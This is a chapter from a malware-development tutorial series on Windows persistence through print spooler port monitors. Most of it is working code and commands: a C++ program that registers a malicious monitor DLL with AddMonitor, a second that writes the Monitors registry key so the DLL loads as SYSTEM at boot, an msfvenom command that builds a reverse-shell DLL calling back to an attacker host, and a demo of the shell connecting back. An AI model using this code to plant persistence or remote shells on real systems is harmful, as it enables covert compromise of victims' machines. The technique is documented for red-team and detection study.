





\newpage
\subsection{74. malware development: persistence - part 8. Port monitors. Simple C++ example.}

{width="80%"}    

This post is the result of self-researching one of the interesting malware persistence trick: Port monitors.    

### port monitors

Port Monitor refers to the Windows Print Spooler Service or `spoolv.exe` in this post. When adding a printer port monitor, a user (or an attacker) is able to add an arbitrary dll that serves as the *"monitor"*.    

There are essentially two ways to add a port monitor, also known as your malicious DLL: through the Registry for persistence or a custom Windows application (`AddMonitor` function) for immediate dll execution.    

### adding monitor

Using the Win32 API, specifically the `AddMonitor` function of the Print Spooler API:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

it is possible to add an arbitrary monitor DLL immediately while the system is running. Note that you will need local administrator privileges to add the monitor.    

For example, source code of our monitor:    

```cpp
/*
monitor.cpp
windows persistence via port monitors
register the monitor port
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}

```

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwinspool
```

{width="80%"}    

Also, create our "evil" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

{width="80%"}    

So, compiling the code will produce an executable (`monitor.exe` in my case) that will register the malicious DLL (`evil2.dll`) on the system.    

### demo for add "monitor"

Copy files and run:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

{width="80%"}    

### registry persistence

A list of sub-key port monitors can be found within the        
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors`       
node. 
Each key should have a `REG_SZ` entry containing a `Drivers` DLL. At system startup, each of these DLLs will be executed as `SYSTEM`.    

First of all, before malicious actions, check sub keys:

```powershell
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors" \
/s
```

{width="80%"}    

Then, add sub key `Meow` and `Driver` value:    

```powershell
reg add \
"HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow"
 /v "Driver" /d "evil2.dll" /t REG_SZ
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors"
 /s
```

{width="80%"}    

As you can see, everything is completed correctly. Then restart victim's machine:    

{width="80%"}    

{width="80%"}    

And after a few minutes:    

{width="80%"}    

{width="80%"}    

Let's go to check `Network` tab in Process Hacker 2:    

{width="80%"}    

We can see that the `evil2.dll` is being accessed by the `spoolsv.exe (PID: 4616)`, which eventually spawns a `rundll32` with our payload, that initiates a connection back to the attacker:     

{width="80%"}    

For cleanup, after end of experiments, run:

```powershell
Remove-ItemProperty -Path \
"HKLM:\System\CurrentControlSet\Control\Print\Monitors\
Meow" -Name "Driver"
```

{width="80%"}    

My "dirty PoC" for registry persistence:    

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, 
    (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

During Defcon 22, Brady Bloxham [demonstrated](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) this persistence technique. This method requires Administrator privileges and the DLL must be saved to disk.   
The question remains whether any APTs uses this technique in the wild.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[source code on Github](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   
